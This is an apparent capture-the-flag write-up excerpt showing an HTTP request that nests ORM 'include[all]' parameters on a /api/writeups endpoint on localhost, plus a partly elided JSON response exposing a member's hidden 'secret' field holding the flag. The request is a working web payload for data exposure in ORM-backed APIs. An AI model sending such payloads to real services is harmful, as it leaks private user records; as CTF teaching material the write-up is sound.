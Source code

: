 ```javascript!
GET /api/writeups?include[all]=All&include[include][all]=All&include[include][include][all]=All HTTP/1.1
Host: localhost
```
```javascript!
{
    "id":10,
        "title":"BatmanCTF 2020 - [...]><br />",
            "date":"2020-06-22T00:00:00.000Z",
                [...],
                 [
                     {
                         "username":"strellic",
                         "secret":null,
                         [...],
                         
                    "updatedAt":"2024-11-06T07:27:12.459Z",
                         "CategoryName":"web",
                         "MemberUsername":"BrownieInMotion"
                     }
                     },
                     {
                         "username":"goroo",
                         "secret":"corctf{erm?_more_like_orm_amiright?}",
                         "kicked":true,
                         "createdAt":"2024-11-06T07:27:12.817Z",
                         "updatedAt":"2024-11-06T07:27:12.817Z",
                         "MemberCategory":{
                         "createdAt":"2024-11-06T07:27:12.828Z",
                         "updatedAt":"2024-11-06T07:27:12.828Z",
                         "CategoryName":"web",
                         "MemberUsername":"goroo"}
                 }
```